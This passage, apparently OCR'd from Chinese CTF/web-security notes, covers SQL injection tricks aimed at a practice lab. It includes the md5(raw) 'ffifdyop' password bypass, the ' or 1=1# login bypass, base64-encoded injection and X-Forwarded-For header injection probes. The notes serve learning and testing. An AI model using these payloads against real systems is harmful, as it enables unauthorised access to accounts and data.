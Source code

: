```
    echo "</pre>";
    if($row!=null){
        echo "Flag: ".$flag;
    }
    
}
else{
	echo "PLEASE LOGINT!";
}
echo "<noscript>";
echo file_get_contents(__FILE__);
```

> 简单说，该查询把md5加密的字符串带到查询语句里一起查询。本来是不该出现问题。
>
> 可是：如果MD5`md5(,true)`加密后的字符串中带有`'or`的话就能够绕过了

于是绕过的`pwd`的值为`ffifdyop`

```
http://lab1.xseclab.com/code1_9f44bab1964d2f959cf509763980e156/?userid=1&pwd=ffifdyop
```



其原因是因为使用`md5(,true)`函数加密的话使用的是原始16进制加密，此加密有漏洞，就是`ffifdyop`



##### 登录绕过

> 这种绕过的话应该很少很少了

很简单。登录的时候

登录用户名框输入：`' or 1=1#`

这样的话就会执行后面的语句而不是前面的查询，就可以直接绕过登录了



​		

### base64注入攻击
就是看到参数.php?id=MQ%3d%3，这种就是通过url编码过的，同样的用union查询语句通过base64转码就好了

### XFF注入
简单说就是用burp suite抓包的时候发现http请求头参数X-Forwarded-for。X-Forwarded-for简称XFF头，它代表客户端真实的ip，通过移动X-Forwarded-for的值可以伪造客户端ip，将X-Forwarded-for设置为127.0.0.1，然后访问该URL页面返回正常
1，X-Forwarded-for:127.0.0.1的时候返回正常
2.X-Forwarded-for:127.0.0.1'的时候返回错误
3.X-Forwarded-for:127.0.0.1' and 1=1#返回正常
……
……
……
其他的就和普通的注入一样了

### SQL注入绕过
